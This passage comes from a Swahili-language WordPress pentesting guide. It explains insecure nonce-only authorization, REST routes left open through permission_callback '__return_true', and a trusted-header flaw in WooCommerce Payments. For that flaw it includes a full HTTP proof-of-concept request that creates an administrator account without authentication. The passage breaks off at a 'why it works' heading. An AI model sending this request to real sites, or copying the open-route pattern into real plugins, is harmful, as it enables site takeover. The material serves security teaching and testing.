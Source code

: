 > [!CAUTION]
> Zaidi ya hayo, ikiwa function inacheki tu idhini ya mtumiaji kwa kutumia `wp_verify_nonce`, function hii inabaini tu kwamba mtumiaji ameingia katika mfumo; kawaida haicheki jukumu (role) la mtumiaji. Kwa hivyo watumiaji wenye vibali vidogo wanaweza kupata ufikiaji wa vitendo vyenye vibali vya juu.

- **REST API**

Inawezekana pia kufichua functions kutoka wordpress kwa kusajili REST API kwa kutumia function `register_rest_route`:
```php
register_rest_route(
$this->namespace, '/get/', array(
'methods' => WP_REST_Server::READABLE,
'callback' => array($this, 'getData'),
'permission_callback' => '__return_true'
)
);
```
The `permission_callback` ni callback ya function inayokagua kama mtumiaji fulani ameidhinishwa kuita wito wa method ya API.

**Ikiwa function ya built-in `__return_true` itatumika, itapuuza ukaguzi wa ruhusa za mtumiaji.**

- **Direct access to the php file**

Bila shaka, Wordpress inatumia PHP na faili ndani ya plugins zinaweza kupatikana moja kwa moja kutoka kwenye web. Hivyo, ikiwa plugin inaonyesha functionality yoyote yenye udhaifu ambayo inachochewa kwa kuingilia tu faili, itakuwa inaweza kutumika na mtumiaji yeyote.

### Trusted-header REST impersonation (WooCommerce Payments ≤ 5.6.1)

Baadhi ya plugins hutekeleza “trusted header” shortcuts kwa ajili ya internal integrations au reverse proxies na kisha hutumia header hiyo kuweka muktadha wa mtumiaji wa sasa kwa REST requests. Ikiwa header hiyo haijafungamanishwa kwa cryptographically kwenye request na sehemu ya upstream, mshambuliaji anaweza ku-spoof na kufikia privileged REST routes kama administrator.

- Impact: kuongezeka kwa privilage bila uthibitisho hadi admin kwa kuunda administrator mpya kupitia core users REST route.
- Example header: `X-Wcpay-Platform-Checkout-User: 1` (inalazimisha user ID 1, kawaida akaunti ya kwanza ya administrator).
- Exploited route: `POST /wp-json/wp/v2/users` na array ya role iliyoinuliwa.

PoC
```http
POST /wp-json/wp/v2/users HTTP/1.1
Host: <WP HOST>
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
X-Wcpay-Platform-Checkout-User: 1
Content-Length: 114

{"username": "honeypot", "email": "wafdemo@patch.stack", "password": "demo", "roles": ["administrator"]}
```
Kwa nini inafanya kazi

